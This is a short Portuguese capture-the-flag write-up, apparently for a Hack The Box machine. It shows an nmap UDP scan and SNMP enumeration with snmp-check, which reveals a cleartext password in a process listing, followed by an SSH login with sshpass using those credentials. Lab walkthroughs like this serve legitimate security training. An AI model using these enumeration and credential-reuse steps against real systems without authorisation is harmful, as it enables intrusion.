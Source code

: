 ```bash
sudo nmap --top-ports 20 -sU $IP -vvv
# ...
# 161/udp   open          snmp         udp-response ttl 63
# ...
```

Temos no meio da resposta, a confirmação que uma porta está aberta! A porta UDP 161. Existem várias ferramentas para "bruteforcear" do serviço SNMP associado. O _snmpwalk_ e o _snmp-check_

Ambos fazem o mesmo, mas o snmpwalk apresenta o resultado em bruto! O que não é agradável à vista. Sendo assim, recomendo mesmo o snmp-check para a enumeração do serviço SNMP

## SNMP

```bash
snmp-check 10.10.11.136
# ...
# 127.0.0.1    3306         0.0.0.0      0            listen
# 127.0.0.53   53           0.0.0.0      0            listen
# ...
# 1274   runnable   host_check   /usr/bin/host_check   -u daniel -p HotelBabylon23
# ...
```

No meio de um pouco mais de 1200 linhas, podemos ver duas informações relevantes.

-   Está a ser executado por uma tarefa cronica um comando **"host_check"** e vemos em texto claro possíveis credenciais...
-   Existe realmente um serviço de virtualhosting a rodar na porta 53. Ainda não sabemos se é relevante ou não.
	> daniel:HotelBabylon23

# Getting Shell

## SSH

A porta SSH encontra-se aberta, e temos credenciais. Vamos simplesmente tentar fazer login via SSH.

```bash
sshpass -p HotelBabylon23 ssh daniel@10.10.11.136
```

Estamos na máquina!
